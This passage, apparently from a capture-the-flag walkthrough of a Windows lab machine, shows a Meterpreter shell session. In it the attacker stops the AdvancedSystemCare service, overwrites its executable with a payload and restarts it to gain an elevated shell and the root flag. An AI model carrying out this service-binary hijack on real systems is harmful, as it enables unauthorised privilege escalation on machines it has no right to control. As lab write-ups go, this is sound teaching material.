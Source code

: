 ````shell
meterpreter > shell
Process 3840 created.
Channel 3 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>copy Advanced.exe "C:\Program Files (x86)\IObit\Advanced Systemcare\ASCService.exe"
copy Advanced.exe "C:\Program Files (x86)\IObit\Advanced Systemcare\ASCService.exe"
Overwrite C:\Program Files (x86)\IObit\Advanced Systemcare\ASCService.exe? (Yes/No/All): yes
yes
        1 file(s) copied.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>sc start AdvancedSystemcareService9
sc start AdvancedSystemcareService9
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
````

We receive a shell with elevated privileges, and can read the root flag

![Root flag](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/steelmountain/sm7.png "Root flag")
